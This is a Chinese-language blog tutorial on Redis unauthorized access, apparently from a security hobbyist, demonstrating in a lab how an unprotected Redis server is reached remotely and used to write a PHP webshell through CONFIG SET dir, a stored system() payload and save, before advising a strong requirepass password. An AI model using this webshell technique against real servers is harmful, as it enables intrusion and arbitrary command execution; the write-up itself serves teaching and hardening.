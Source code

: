 ```yaml
---
categories: Program
date: "2018-03-16T00:00:00Z"
description: 本文介绍一下Redis未授权访问简介
title: Redis未授权访问简介
url: /archivers/2018-03-16/4
---
```

本文介绍一下Redis未授权访问简介
<!--more-->

>Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。从2010年3月15日起，Redis的开发工作由VMware主持。从2013年5月开始，Redis的开发由Pivotal赞助。

>redis是一个key-value存储系统。和Memcached类似，它支持存储的value类型相对更多，包括string(字符串)、list(链表)、set(集合)、zset(sorted set –有序集合)和hash（哈希类型）。这些数据类型都支持push/pop、add/remove及取交集并集和差集及更丰富的操作，而且这些操作都是原子性的。在此基础上，redis支持各种不同方式的排序。与memcached一样，为了保证效率，数据都是缓存在内存中。区别的是redis会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了master-slave(主从)同步。

之前看SRC刷过Redis未授权访问的漏洞

![redis_0x1-2.png](http://upload-images.jianshu.io/upload_images/3150364-323afe041674576d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

那么下面我来揭开它的神秘面纱！

首先我下载了安装包。

![redis_0x2.png](http://upload-images.jianshu.io/upload_images/3150364-3c97530c544d98e1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

[ — 安装过程 自行百度 –]

安装好以后，我们启动redis服务：
```
/usr/share/redis/bin/redis-server /etc/redis.conf
vim /etc/redis.conf
```
在181行左右 我先注释访问密码。

然后启动redis-server
```
[root@localhost 桌面]# ps -A | grep redis
 3931 ?        00:00:00 redis-server
```
首先我先用客户端连接服务器：
```
[root@localhost 桌面]# redis-cli 
redis 127.0.0.1:6379> keys *
1) "about"
2) "user:id1"
3) "user:id2"
4) "admin"
5) "str"
redis 127.0.0.1:6379> get str
"ldjskjdsahdsaa"
redis 127.0.0.1:6379> 
```
可以看到能直接操作数据库。

下面我用另外一台服务器做安全测试
```
[root@localhost 桌面]# redis-cli -h 10.10.3.215
redis 10.10.3.215:6379> keys *
1) "about"
2) "user:id1"
3) "user:id2"
4) "admin"
5) "str"
redis 10.10.3.215:6379> 
```
发现也是可以直接操作数据库

根据redis语句我们写webshell….

前提是知道绝对路径，当然也可以用语句判断。
```
redis 10.10.3.215:6379> CONFIG SET dir /var/wwwroot/
(error) ERR Changing directory: No such file or directory
```
可以发现不存在，那么就可以猜解目录了。

下面我演示写webshell
```
redis 10.10.3.215:6379> CONFIG SET dir /usr/share/apache/htdocs/ #这里是站点绝对路径
OK
redis 10.10.3.215:6379> set shell "<?php echo system($_REQUEST[cmd])?>"
OK
redis 10.10.3.215:6379> CONFIG SET dbfilename shell.php
OK
redis 10.10.3.215:6379> save  #将内存中的数据保存到dbfilename中
OK
redis 10.10.3.215:6379> 
```
这样就getshell了

![redis_0x4.png](http://upload-images.jianshu.io/upload_images/3150364-78f6ce3f2a7e5357.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>下面看看这个未授权原因
>在刚才的配置文件中，有一个选项
>设置客户端连接后进行任何其他指定前需要使用的密码。
>警告：因为redis速度相当快，所以在一台比较好的服务器下，一个外部的用户可以在一秒钟进行150K次的密码尝试，这意味着你需要指定非常非常强大的密码来防止暴力破解
>requirepass [密码]
>所以必须设置密码。
>出现这类漏洞就是 配置不得当导致控制系统 执行任意代码  再深入还可以威胁主从服务器 及其他的数据库服务器。
